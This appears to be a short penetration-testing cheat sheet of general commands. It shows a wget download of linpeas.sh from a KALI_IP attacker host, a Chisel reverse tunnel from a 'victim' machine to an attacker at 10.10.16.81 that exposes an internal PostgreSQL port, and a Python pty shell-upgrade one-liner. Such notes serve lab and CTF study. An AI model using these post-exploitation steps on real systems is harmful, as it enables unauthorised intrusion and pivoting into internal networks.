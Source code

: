 # General Commands

### Python server

`python3 -m http.server 8888`

To download the file: `wget http:/KALI_IP//linpeas.sh`

### SCP

Copy file from local to a remote computer:

```bash
scp file.txt remote_username@10.10.0.2:/remote/directory/newfilename.txt
# -P to set the ssh port in necessary case
```

Copy file from remote directory to local computer

```bash
scp remote_username@10.10.0.2:/remote/file.txt /local/directory
```

### Chisel

Example for postgresql (port 5432). First we need to transfer chisel.

On the attacker's machine:

```
chisel server --port 9002 --reverse
```

On the victim's machine:

```
./chisel client -v 10.10.16.81:9002 R:5432:172.22.0.1:5432
```

And now on the atacker's machine we have the ports 5432 connected. The usage wil be on another tab: `psql -h 10.10.16.81 -U "postgres" -p 5432`

``

#### Spawn a TTY Shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### Tmux

```
sudo apt install tmux -y
```

* [https://tmuxcheatsheet.com/](https://tmuxcheatsheet.com/)
* [Introduction to termux Ippsec](https://www.youtube.com/watch?v=Lqehvpe\_djs)

### Vim

[https://vimsheet.com/](https://vimsheet.com/)

